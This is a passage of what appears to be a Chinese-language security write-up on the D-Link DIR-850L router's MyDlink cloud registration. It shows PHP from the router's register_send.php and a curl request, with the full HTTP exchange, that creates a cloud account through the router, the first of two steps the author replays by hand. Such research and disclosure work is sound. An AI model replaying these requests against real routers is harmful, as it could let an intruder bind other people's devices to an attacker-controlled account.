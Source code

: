```php

    $action_adddev = "adddev";

    //main start
    if($action == $action_signup)
    {
        $post_str = $post_str_signup;
        $post_url = $post_url_signup;
        $withcookie = "";   //signup dont need cookie info
    }
    else if($action == $action_signin)
    {
        $post_str = $post_str_signin;
        $post_url = $post_url_signin;
        $withcookie = "\r\nCookie: lang=en; mydlink=pr2c11jl60i21v9t5go2fvcve2;";
    }
    else if($action == $action_adddev)
    {
        $post_str = $post_str_adddev;
        $post_url = $post_url_adddev;
    }
    else
        $result = "fail";
```
最后，手动模拟发包，注意两点：
>1. 我测试的固件版本对云协议操作存在权限校验，所以需要提供一个合法的cookie。
>2. 由于上面UI操作时发送两个数据包就能完成该工作，所以我也决定只发两个包进行尝试。

第一个请求 (signup)会在MyDlink服务上创建一个用户:

```python
-----------------------------------------------------------------------------------------------------------------------
curl -v  -H 'Cookie:uid=paYh93tqw4' -d 'act=signup&lang=zh_CN&outemail=EMAIL_ADDR&passwd=PASSWD_FOR_LOGIN&firstname=beeman&lastname=the' http://192.168.100.1/register_send.php
*   Trying 192.168.100.1...
* Connected to 192.168.100.1 (192.168.100.1) port 80 (#0)
> POST /register_send.php HTTP/1.1
> Host: 192.168.100.1
> User-Agent: curl/7.47.0
> Accept: */*
> Cookie:uid=paYh93tqw4
> Content-Length: 99
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 99 out of 99 bytes
< HTTP/1.1 200 OK
< Server: Linux, HTTP/1.1, DIR-850L Ver 1.14WW
< Date: Mon, 11 Dec 2017 12:10:12 GMT
< Transfer-Encoding: chunked
< Content-Type: text/xml
< 
<?xml version="1.0"?>
<register_send>
	<result>success</result>
	<url>https://mp-cn-portal.auto.mydlink.com</url>
</register_send>
-----------------------------------------------------------------------------------------------------------------------
```
